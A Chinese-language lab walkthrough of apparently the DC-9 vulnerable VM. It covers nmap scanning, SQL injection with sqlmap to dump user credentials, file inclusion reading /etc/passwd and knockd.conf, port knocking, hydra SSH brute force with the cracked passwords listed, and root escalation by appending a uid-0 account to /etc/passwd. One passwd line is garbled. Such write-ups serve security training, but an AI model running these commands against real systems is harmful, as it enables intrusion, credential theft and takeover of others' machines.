# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24

nmap -sS 192.168.182.150
```



# 数据库攻击

访问80端口



发现有像数据库的查询





发现results.php下有sql注入 （这里我最开始写的是search.php结果跑没出来,它search提交到的是results界面,所以这里应该是results.php)

```bash
sqlmap -u "http://192.168.182.150/results.php" --data "search=1" --dbs
sqlmap -u "http://192.168.182.150/results.php" --data "search=1" -D Staff --tables
sqlmap -u "http://192.168.182.150/results.php" --data "search=1" -D Staff -T Users --columns
sqlmap -u "http://192.168.182.150/results.php" --data "search=1" -D Staff -T Users -C "Username,Password" --dump
```

因为密码有md5加密,sqlmap会提示你是否用字典跑,选默认的字典就能跑出来



同样的,也去跑一下users数据库



先留着,后面可能能用上

# getshell

登录后发现了这个



疑似存在文件包含漏洞，猜测文件参数是**file**

```undefined
?file=../../../../etc/passwd
```



发现用户名和我们之前users数据库中的一样,

然后登录ssh,但是失败了,以为22端口是堵塞状态

## knockd服务

https://www.cnblogs.com/xiaoxiaoleo/p/8523322.html

端口敲门服务，即：knockd服务。该服务通过动态的添加iptables规则来隐藏系统开启的服务，使用自定义的一系列序列号来“敲门”，使系统开启需要访问的服务端口，才能对外访问。不使用时，再使用自定义的序列号来“关门”，将端口关闭，不对外监听。进一步提升了服务和系统的安全性。　　

简单来说就是：知道它的自定义端口后，依次对其进行敲门，然后就可以开启ssh服务从而进行连接了。它的默认配置文件为：/etc/knockd.conf

所以现在就是要知道它的这个配置文件的内容就可以得到它自定义的端口号，用文件包含漏洞把这个文件爆出来：



确实有这个配置文件，那么就先用knock命令使得靶机的SSH端口对我的攻击机开放：

```
sudo apt-get install knockd # 安装knockd工具，其中包括knock命令
knock 192.168.182.150 7469 8475 9842 # 使用序列号knock靶机
```

然后将刚才sqlmap跑出来的账号密码写入两个文件中准备撞库

```
hydra -L users.txt -P password.txt 192.168.211.142 ssh -vV
```

跑出来

```
login: chandlerb   password: UrAG0D!
login: joeyt   password: Passw0rd
login: janitor   password: Ilovepeepee
```

第一个和第二个不能访问其他目录

用第三个janitor登录发现有隐藏目录



进入.secrets-for-putin



将这些密码放入密码文件中,再一次爆破,成功爆破出fredf用户密码

```
login: fredf password: B4-Tru3-001
```

# 提权



发现为python文件



打开发现看不懂,应该是编译后的python文件,去找一下源文件

```bash
find / -name test.py -print 2>/dev/null #发现/opt/devstuff/test.py
cat /opt/devstuff/test.py
```

```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()

```

该py文件就是将一文件内容追加到指定文件的后面。（由于存在sudo权限，可以向/etc/passwd文件写入拥有root权限的账户）

构造加密密码：
```
openssl passwd -1 -salt admin 123456
```
构造新的用户：
```
admin:1 11admin$LClYcRe.ee8dQwgrFc5nz.:0:0::/root:/bin/bash
```
将此串内容保存到一个文件中（一般选取家目录的文件或者/tmp临时文件）
```
echo 'admin:$1$admin$LClYcRe.ee8dQwgrFc5nz.:0:0::/root:/bin/bash' >> /tmp/admin
```
接下来运行test文件，写入/etc/passwd:
```
sudo ./test /tmp/admin /etc/passwd
```
登录设置的用户：su admin获取到root权限



成功登录

